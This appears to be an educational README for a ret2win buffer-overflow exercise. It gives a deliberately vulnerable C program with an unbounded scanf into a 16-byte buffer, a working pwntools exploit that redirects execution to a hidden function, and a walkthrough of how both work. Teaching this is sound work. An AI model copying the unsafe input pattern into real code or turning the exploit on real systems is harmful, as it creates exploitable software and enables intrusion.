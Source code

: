 # ret2win example scripts

# Buffer Overflow Exploit Example

This is an example of a buffer overflow exploit written in C and Python using Pwntools. The C program contains a vulnerable function that allows us to perform a buffer overflow to execute a hidden function `hacked()`.

## C Code (vulnerable.c)

```c
#include <stdio.h>

void hacked()
{
    printf("This function is TOP SECRET! How did you get in here?! :O\n");
}

void register_name()
{
    char buffer[16];

    printf("Name:\n");
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);
}

int main()
{
    register_name();

    return 0;
}
```

## Python Exploit Code (exploit.py)

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './ret2win'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 24

payload = flat(
    b'A' * 24,
    elf.functions.hacked  # 0x401142
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Receive the flag
io.interactive()
```

## Explanation of the Code

### Vulnerable C Code

- The C program has a function `register_name()` that reads a string from user input using `scanf()`. However, the function does not check the size of the input, which leads to a buffer overflow vulnerability.
- The `buffer` array is only 16 bytes, but `scanf("%s", buffer)` can potentially overwrite memory beyond that size, including the return address of the function.
- The hidden `hacked()` function can be called by exploiting this buffer overflow.

### Exploit Code

- The Python exploit code uses Pwntools to automate the process of exploiting the vulnerability in the C program.
- The `start()` function allows switching between local, remote, and GDB debugging modes.
- `gdbscript` contains the GDB commands to initialize Pwntools and continue the program execution.
- The exploit works by overflowing the buffer and redirecting the program's control flow to the `hacked()` function, which is a hidden function in the binary.
- The `payload` is crafted by filling the buffer with 24 'A' bytes (to overflow the return address) and appending the address of the `hacked()` function.

### Running the Exploit

1. Run the exploit:

```bash
python3 exploit.py
```

### Output

When the exploit is successful, the `hacked()` function is triggered, and the following message will be printed:

```
This function is TOP SECRET! How did you get in here?! :O
```

The exploit also saves the payload to a file named `payload` for reference.

---
